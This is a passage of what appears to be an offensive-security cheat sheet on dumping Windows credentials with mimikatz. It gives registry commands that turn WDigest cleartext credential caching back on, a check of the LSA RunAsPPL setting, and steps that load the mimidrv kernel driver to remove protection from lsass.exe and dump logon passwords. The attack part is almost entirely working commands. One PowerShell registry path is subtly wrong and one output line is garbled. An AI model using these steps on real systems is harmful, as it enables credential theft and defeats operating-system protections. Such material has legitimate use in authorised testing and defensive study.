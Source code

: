 > [!INFO] Error Message
> If you receive this error.
> ```
> mimikatz # sekurlsa::wdigest
> ERROR kuhl_m_privilege_acquireLSA ; Handle on memory (0x00000005)
> ```

Simply downgrades to enable mimikatz to retrieve the credentials of the windows workstation.

```
C:\> reg.exe add "HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" /v UseLogonCredential /t REG_DWORD /d 1 /f

PS C:\> Set-ItemProperty -Force -Path "HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" -Name "UseLogonCredential" -Value "1"
```

## 04 - Disable LSA Protection

> [!INFO] Error Message
> If you receive this error.
> ```
> mimikatz # sekurlsa::logonpasswords
> ERROR kuhl_m_privilege_acquireLSA ; Handle on memory (0x00000005)
> ```

Check the registry key value.

```
C:\> reg.exe query "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v RunAsPPL
```

```
PS C:\> Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Lsa -Name "RunAsPPL"

RunAsPL     : 1
```

### 4.1 - First Method

```
mimikatz # !+
```

Create and start a `mimidrv` service

```
C:\> sc create mimidrv binpath= C:\path\to\mimidrv.sys type= kernel start= demand

C:\> sc start mimidrv
```

```
mimikatz # !processprotect /process:lsass.exe /remove

mimikatz # privilege::debug

mimikatz # sekurlsa::logonpasswords

mimikatz # !processprotect /process:lsass.exe

mimikatz # !-
```
